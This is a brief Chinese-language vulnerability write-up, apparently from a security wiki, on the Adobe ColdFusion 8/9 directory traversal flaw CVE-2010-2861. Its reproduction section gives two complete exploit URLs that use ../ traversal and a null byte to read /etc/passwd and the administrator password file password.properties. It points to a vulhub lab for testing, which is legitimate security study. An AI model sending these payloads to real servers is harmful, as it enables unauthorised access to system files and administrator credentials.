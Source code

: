 <h1>（CVE-2010-2861）Adobe ColdFusion 文件读取漏洞</h1>
<h2>一、漏洞简介</h2>
<p>Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。</p>
<h2>二、漏洞影响</h2>
<p>Adobe ColdFusion 8
<br>
Adobe ColdFusion 9</p>
<h2>三、复现过程</h2>
<p>直接访问<p>
<pre><code>
http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en
</code></pre>
<p>即可读取文件/etc/passwd：</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img1.png"/>
<p>读取后台管理员密码</p>
<pre><code>
http://www.0-sec.org:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en：
</code></pre>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img2.png"/>
<h2>参考链接</h2>
<p>https://vulhub.org/#/environments/coldfusion/CVE-2010-2861/</p>

